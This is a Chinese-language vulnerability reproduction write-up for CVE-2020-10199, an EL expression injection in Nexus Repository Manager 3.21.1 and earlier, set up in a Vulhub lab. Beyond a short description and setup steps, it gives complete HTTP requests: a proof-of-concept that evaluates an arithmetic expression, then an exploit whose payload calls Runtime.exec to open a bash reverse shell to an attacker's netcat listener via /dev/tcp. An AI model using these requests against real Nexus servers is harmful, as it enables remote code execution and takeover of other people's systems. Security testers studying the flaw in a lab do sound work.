

# CVE-2020-10199

> **Created by：** A-little-dragon
> **Team：** TracelessSec
> **漏洞描述：**Nexus Repository Manager 3 任意EL表达式注入漏洞。


# 0x01 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

# 0x02 影响版本

`3.21.1及之前版本`

# 0x03 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```cpp
docker-compose up -d
```

成功启动后，访问http://your-ip:8081即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码admin/admin登录后台。



# 0x04 漏洞复现

## POC验证

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: your-vps-ip:8081
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://your-vps-ip:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://your-vps-ip:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=d7f44169-393b-446a-815d-0eff3acf5a71
Connection: close
Content-Length: 203

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```


## 漏洞利用

**攻击机开启监听**

```
nc -lvvp {port}
```

**发送数据包**

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 192.168.100.141:8081
Pragma: no-cache
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.5406533101387068
Accept: */*
Referer: http://192.168.100.141:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.5406533101387068; _ga=GA1.1.1374831769.1719492805; NXSESSIONID=ec9ee768-c078-45e1-aa20-cfb2bf0b5264; _ga_K2SPJK2C73=GS1.1.1719492805.1.1.1719492854.11.0.0; _ga_T11SF3WXX2=GS1.1.1719492805.1.1.1719492854.11.0.0; _ga_0C4M1PWYZ7=GS1.1.1719492805.1.1.1719492904.0.0.0
Connection: close
Content-Type: application/json
Content-Length: 350

{
 
    "name": "internal",
    "online": true,
    "storage": {
        "blobStoreName": "default",
        "strictContentTypeValidation": true
    },
    "group": {
    "memberNames": ["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/{ip}/{port}<&1')}"]
}
}
```


**拿到shell**

